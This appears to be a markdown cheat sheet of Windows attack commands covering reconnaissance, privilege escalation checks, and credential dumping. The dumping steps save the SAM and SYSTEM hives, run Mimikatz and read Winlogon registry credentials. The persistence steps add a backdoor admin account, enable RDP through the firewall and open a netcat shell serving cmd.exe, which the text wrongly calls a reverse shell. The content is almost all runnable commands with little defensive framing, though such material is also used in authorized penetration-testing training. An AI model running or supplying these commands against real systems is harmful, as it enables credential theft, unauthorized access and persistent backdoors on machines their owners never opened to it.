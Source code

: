 ## Basic Windows Commands

| Command | Description |
|---------|------------|
| `whoami` | Shows current logged-in user. |
| `hostname` | Displays the computer name. |
| `systeminfo` | Shows OS version, patch level, and installed updates. |
| `net user` | Lists all local user accounts. |
| `net localgroup administrators` | Shows all admin users on the machine. |
| `tasklist` | Lists running processes. |
| `wmic qfe get Caption,Description,HotFixID` | Lists installed Windows updates (used for finding missing patches). |
| `ipconfig /all` | Shows network configuration, IP, MAC address. |
| `arp -a` | Displays ARP table (used to find connected devices). |
| `route print` | Shows routing table (useful for network recon). |

---

## Finding Vulnerabilities & Privilege Escalation

#### Check Current Privileges
```powershell
whoami /priv
```

#### Find Misconfigured Services (Privilege Escalation)
```powershell
wmic service get name,displayname,pathname | findstr /i "C:\Program"
```

#### Check Sudo-like Commands
```powershell
whoami /groups
net user <your_user> /domain
# If you have admin privileges, escalate to SYSTEM.
```

#### Find Running Services & Exploit Misconfigurations
```powershell
tasklist /svc
sc query
# Look for vulnerable services (unquoted paths, weak permissions).
```

## Password & Credential Dumping

#### Dump Password Hashes (If Admin)
```powershell
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save

# Use Mimikatz to extract hashes:
mimikatz
sekurlsa::logonpasswords
# Use hashes in "Pass-the-Hash" attacks.
```

#### Extract Credentials from Registry
```powershell
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

## Network Scanning & Remote Exploitation

#### List Open Ports (Find Remote Services)
```powershell
netstat -ano
# Look for open RDP (3389), SMB (445), WinRM (5985).
```

#### Enumerate SMB (File Sharing Exploits)
```powershell
net use \\<target-IP>\C$ /user:Administrator
# Access admin shares remotely if credentials are known.
```

#### Connect to Remote Desktop (RDP)
```powershell
mstsc /v:<TARGET-IP>
# Use if RDP (port 3389) is open.
```

## Windows Persistence & Maintaining Access

#### Create a New Admin User
```powershell
net user hacker Pass123 /add
net localgroup administrators hacker /add
```

#### Enable RDP for Remote Access
```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="Remote Desktop" new enable=Yes
```

#### Add a Backdoor Using Netcat
```powershell
nc -lvp 4444 -e cmd.exe
# Creates a reverse shell on port 4444.
```
